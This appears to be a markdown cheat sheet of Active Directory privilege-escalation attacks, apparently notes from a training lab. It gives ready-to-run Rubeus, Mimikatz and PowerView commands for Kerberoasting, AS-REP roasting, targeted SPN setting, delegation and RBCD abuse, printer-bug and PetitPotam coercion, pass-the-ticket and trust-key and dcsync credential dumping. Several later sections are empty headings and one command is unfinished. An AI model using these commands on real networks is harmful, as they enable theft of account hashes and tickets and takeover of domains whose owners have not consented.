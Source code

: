 
## AD Privilege Escalation

- [Kerberoasting](#kerberoasting)
    + [Using `Rubeus.exe`](#using--rubeusexe-)
    + [Using Mimikatz](#using-mimikatz)
- [Targeted Kerberoasting AS-REPs](#targeted-kerberoasting-as-reps)
    + [Enumerating accounts with Kerberos Preauth disabled](#enumerating-accounts-with-kerberos-preauth-disabled)
    + [Disable Kerberos Preauth](#disable-kerberos-preauth)
    + [ASREPRoast : Request Encrypted AS-REP for Offline Brute Force](#asreproast---request-encrypted-as-rep-for-offline-brute-force)
- [Targeted Kerberoasting Set SPN](#targeted-kerberoasting-set-spn)
- [Kerberos Delegation](#kerberos-delegation)
    + [Uncostrained Delegation](#uncostrained-delegation)
    + [Printer Bug](#printer-bug)
  * [Constrained Delegation](#constrained-delegation)

### Kerberoasting
---
```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . .\PowerView.ps1
C:> Get-DomainUser -SPN
# We require to use the 'serviceprincipalname'

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
##### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John. Adequate file before cracking
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
##### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken 
    -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` files: asd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
---
##### Enumerating accounts with Kerberos Preauth disabled
```powershell
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose    

# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
##### Disable Kerberos Preauth
```powershell
C:> Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
C:> Get-DomainUser -PreauthNotRequired -Verbose    # Check
``` 
##### ASREPRoast 
```powershell
# Request Encrypted AS-REP for Offline Brute Force
C:> Get-ASREPHash -UserName <user> -Verbose

# Enumerate Users with KErberos preauth disabled
C:> Invoke-ASREPRoast -Verbose

# Crack using JTR
C:> john.exe --wordlist=C:\10k-worst-pass.txt C:\asrephashes.txt
```
### Targeted Kerberoasting Set SPN
---
With rights over a user, we can set a SPN to it, and then go for a AS-REPs attack.
```powershell
# Enumerate permissions for RDPUsers
C:> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Check if user already has a SPN
C:> Get-DomainUser -Identity <user> | select serviceprincipalname

# Set SPN for the user
C:> Set-DomainObject -Identity <user> | Set @{serviceprincipalname='ops/whatever1'}

# Kerberoast the user
C:> Rubeus.exe kerberoast /outfile:targetedhashes.txt
C:> john.exe /wordlist=C:\wordlist.txt C:\targetedhashes.txt
```

### Kerberos Delegation
---

#### Uncostrained Delegation
```powershell
# Find Server with Unconstraided Delegation Enabled
C:> . C:\AD\Tools\PowerView.ps1
C:> Get-DomainComputer -Unconstrained | select -ExpandProperty name
<host1>
<host_n>

# Compromise the server and wait uuser to connect to server and then dump tokens on .kirbi files
C:> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Reuse the exported ticket with PTT
C:> Invoke-Mimikatz -Command '"kerberos::ptt C:<ticket_file_name>.kirbi"'
```
- Requisite for elevation using this technique, is to compromise a user with Admin Rights on the host

##### Printer Bug
```powershell
# Need shell in the server to compromise
# Launch Rubeus listener to capture TGT from DC 
C:> Rubeus.exe monitor /targetuser:<dc-name>$ /interval:5 /nowrap

# From a shell on our host, force DC auth to the server to compromise
C:> MS-RPRN.exe \\<DC_fqdn_name> \\<server_to_compromise_fqdn>
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.     # This error is OK

# PetiPoam can be user as well. Does the same.
# USefull when no print spooler enabled
C:> PetitPotam.exe dcorp-appsrv dcorp-dc

# At this point, in Rubeus we got the TGT for DC auth.
# Copy the Base64EncodedTicket and use with Rubeus in a elevated shell from our host
C:> Rubeus.exe ptt /ticket:<Base64EncodedTicket>
[*] Action: Import Ticket
[+] Ticket successfully imported!

# At this point we get a ticket for the DC User
# From here, a DC-Sync attack to DC to get krbtgt and also to enterprise DC.
```
#### Constrained Delegation
```powershell
# Get users with Constraied delegation
C:> . .\PowerView.ps1
C:> Get-DomainUser -TrustedToAuth
#    msds-allowedtodelegateto : {CIFS/host.domain.LOCAL, CIFS/host}    <-- Service to abuse
#    useraccountcontrol       : TRUSTED_TO_AUTH_FOR_DELEGATION         <-- When user is trusted 
#    samaccountname            : websvc                                <-- user name

# Request a TGS for user as Domain Administrator for CIFS on host
C:> Rubeus.exe s4u /user:<user> /aes256:<user_aes_hash> /impersonateuser:Administrator 
                   /msdsspn:"CIFS/<host_fqdn>" /ptt
```
```powershell
# Get Computer Accounts with Constrained Delegation
C:> Get-DomainComputer -TrustedToAuth

# Impersonate User Administrator using the host account
#   Using LDAP as the altservice, will allow to do a dcsync to dump krbgtg hash
C:> Rubeus.exe s4u /user:<host_account>$ /aes256:<host_aes_hash> /impersonateuser:Administrator 
                   /msdsspn:time/<host_Fqdn> /altservice:ldap /ptt
```
##### Resource Based RBCD
- Control over an object which has SPN configured
- Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity
```powershell
# Use BloodHound to get Users permissions over hosts for clues

# Then check potential users with following command
C:> Find-InterestingDomainACL | ?{$_.identityreferencename | -match '<user>'
#   ObjectDN                : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
#   ActiveDirectoryRights   : ListChildren, ReadProperty, GenericWrite
#   SecurityIdentifier      : S-1-5-21-1874506631-3219952063-538504511-1109
#   IdentityReferenceName   : ciadmin

# Check for RCBD enabled machnes
C:> Get-DomainRBCD

# Set RCBD on <host> for the "machines"
C:> Set-DomainRBCD -Identity <host> -DelegateFrom 'machine1$|machine2$|machine3$' -Verbose

# Get Keys for machine1, our own machine, as rcbd was configured before
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys" "exit"'

# Abuse RBCD to access <host> as domain admin
C:> Rubeus.exe s4u /user:machine1$ /aes256:<machine1_hash> /msdsspn:http/<host> /impersonateuser:administrator /ptt
```
### DNSAdmins
---
### Escalate Across Trusts
---
##### Child to Parent sIDHistory
```powershell
#`sIDHistory` is a user attribute designed for scenarios where a user is moved from one domain to another. 
# When a user's domain is changed, they get a new SID and the old SID is added to `sIDHistory`
# AD permissions required. Get a cmd on a DA using rubeus or mimikatz

# Get Domain Trust Key in any of following ways
C:> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <dc-host>
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<parent-dc>$
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'






```







##### Across Forest

##### Across Domain Trusts AD CS

### MS SQL Servers
